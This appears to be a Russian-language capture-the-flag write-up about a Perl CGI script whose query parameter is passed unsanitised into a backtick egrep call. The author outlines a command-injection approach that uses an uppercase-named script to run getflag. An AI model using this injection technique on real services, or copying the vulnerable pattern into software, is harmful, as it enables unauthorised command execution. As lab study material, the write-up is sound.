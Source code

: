 ```pl
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

$xx =~ tr/a-z/A-Z/;  \
перевести в верхний регистр

общие регулярки \
s/\s.*// \
\s («s»: от английского «space» – «пробел»)

https://www.opennet.ru/docs/RUS/perl_regex/ \
perl регулярки \
s/.../.../ - подстановка текста (substitution),

подставить / вместо пробела и одного символа в любом количестве (напр " рррррр") / подставить ничего (удалить)

2. Обращаю внимание на строку 
```pl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
она заключена в \` \`

3. Подставляю квери параметры такие, чтобы получить в этой строке getflag \
curl 127.0.0.1:4646?x= \
$xx =~ tr/a-z/A-Z/;  переведет в верхний регистр, значит мне надо запустить скрипт, который запустит getflag
```sh
touch MYSCRIPT.SH
chmod 777 MYSCRIPT.SH
# ||
# \/
```
```sh
#!/bin/bash

getflag > /tmp/tkn
```
